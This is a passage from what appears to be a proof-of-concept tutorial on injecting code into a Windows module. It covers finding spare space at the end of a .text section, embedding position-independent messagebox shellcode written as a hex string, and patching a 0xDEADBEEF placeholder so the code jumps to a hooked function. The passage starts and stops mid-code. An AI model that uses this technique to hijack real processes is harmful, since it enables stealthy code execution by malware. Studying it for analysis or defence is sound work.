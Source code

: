             fLink = pModule->InLoadOrderModuleList.Flink;
      } while (pModule->InLoadOrderModuleList.Flink != firstFLink);
 
      return 0;
}
 
Now we need a good place within the .text section to inject our code. Fortunately for us, the raw size of the .text section must be a multiple of the file alignment specified in the portable executable optional header. Unless the actual size of the code is divisible by the file alignment, there will probably be enough space at the end of the .text section to allow for injection of a small piece of code.

The code below can be used to acquire an absolute address that will place the injected code at the end of the import module’s .text section.
 
DWORD dwHandlerAddress = (DWORD)pImportImageBase +
      pImportTextHeader->VirtualAddress +
      pImportTextHeader->SizeOfRawData -
      dwHandlerSize;
 
To function properly, the code injected at the calculated address must be position-independent. In this proof of concept I will be using my windows messagebox shellcode with a couple modifications, namely a function prologue and epilogue along with a jump to 0xDEADBEEF. The assembly (handler.asm in the sample project) is assembled using NASM and then converted into a hex escaped C string.
 
char* handler =
      "\x55\x31\xdb\xeb\x55\x64\x8b\x7b"
      "\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b"
      "\x47\x08\x8b\x77\x20\x8b\x3f\x80"
      "\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
      "\x78\x3c\x8b\x57\x78\x01\xc2\x8b"
      "\x7a\x20\x01\xc7\x89\xdd\x8b\x34"
      "\xaf\x01\xc6\x45\x8b\x4c\x24\x04"
      "\x39\x0e\x75\xf2\x8b\x4c\x24\x08"
      "\x39\x4e\x04\x75\xe9\x8b\x7a\x24"
      "\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a"
      "\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01"
      "\xf8\xc3\x68\x4c\x69\x62\x72\x68"
      "\x4c\x6f\x61\x64\xe8\x9c\xff\xff"
      "\xff\x31\xc9\x66\xb9\x33\x32\x51"
      "\x68\x75\x73\x65\x72\x54\xff\xd0"
      "\x50\x68\x72\x6f\x63\x41\x68\x47"
      "\x65\x74\x50\xe8\x7d\xff\xff\xff"
      "\x59\x59\x59\x68\xf0\x86\x17\x04"
      "\xc1\x2c\x24\x04\x68\x61\x67\x65"
      "\x42\x68\x4d\x65\x73\x73\x54\x51"
      "\xff\xd0\x53\x53\x53\x53\xff\xd0"
      "\xb9\x07\x00\x00\x00\x58\xe2\xfd"
      "\x5d\xb8\xef\xbe\xad\xde\xff\xe0";
 
Before our handler is injected 0xDEADBEEF must be replaced with the address of the function we are hooking. The function below does just that when supplied with the appropriate variables.

BOOL PatchDWORD(BYTE* pBuffer, DWORD dwBufferSize, DWORD dwOldValue,
                DWORD dwNewValue)
{
      for (int i = 0; i < dwBufferSize - 4; i++)
      {          
            if (*(PDWORD)(pBuffer + i) == dwOldValue)
            {
                  memcpy(pBuffer + i, &dwNewValue, 4);
 